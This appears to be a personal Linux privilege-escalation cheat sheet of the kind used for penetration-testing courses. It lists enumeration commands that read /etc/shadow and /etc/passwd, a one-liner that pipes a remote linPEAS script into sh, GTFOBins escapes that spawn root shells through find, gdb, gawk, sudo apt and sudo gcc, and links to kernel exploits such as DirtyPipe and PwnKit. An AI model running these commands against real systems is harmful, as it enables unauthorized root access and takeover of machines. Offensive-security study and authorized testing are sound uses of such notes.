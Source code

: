 ## Basic Commands
---

```powershell
whoami
id
hostname
uname -a

ls -l /etc/shadow

cat /etc/passwd
cat /etc/issue
cat /etc/os-release

ps aux
ip a
routel
ss -anp
cat /etc/iptables/rules.v4

ls -lah /etc/cron*
crontab -l
sudo crontab -l

dpkg -l
cat /etc/fstab
mount
lsblk
lsmod

/sbin/modinfo nome_di_uno_specifico_modulo
```

## Tools
---
- [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)
- [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum) 

### linPEAS oneliner

```shell
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Commond abused binaries
---

We can use the [GTFOBins](https://gtfobins.github.io/gtfobins/) to read existent exploitations for binaries in linux. Below more examples.
#### find

```shell
find /home/user/Desktop -exec "/usr/bin/bash" -p \;

find / -writable -type d 2>/dev/null

find / -perm -u=s -type f 2>/dev/null
```

#### gdb

```shell
/usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

#### cp

```shell
LFILE=file_to_change
/usr/bin/cp --attributes-only --preserve=all ./cp "$LFILE"
```

#### gawk

```shell
/usr/bin/gawk 'BEGIN {system("/bin/sh")}'
```

### VISUDO
---

In the file `/etc/sudoers` the sysadmin can specify which commands the users can run with the "sudo" keyword that can be used to run the command with elevated privileges. This could led to a many exploit tecniques that we can find referring to GTFObins. Normally users that can run "sudo" are the users listed in the `sudo group`.

#### apt

```shell
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

#### gcc

```shell
sudo gcc -wrapper /bin/sh,-s .
```

## System Investigation

To get all capabilities on file in the system we can use the following commands, also grepping for a specific capability.

```shell
/usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null | grep -i setuid
```

## Searchexploit for Privilege Escalation

There are many exploits for many linux kernel versions out there. We can check the OS Version with cat /etc/os-release. Famous examples of Linux kernel exploits are [DirtyCow](https://dirtycow.ninja/) or [DirtyPipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits). There is also a recent exploit on the GNU C Library [Looney Tunables](https://github.com/hadrian3689/looney-tunables-CVE-2023-4911) that can work on newer systems as a privilege escalation. An interesting and recent case is the Pkexec Local Privilege Escalation exploit that can be run with [PwnKit](https://github.com/ly4k/PwnKit). Many of this exploits can be found directly with `searchsploit`.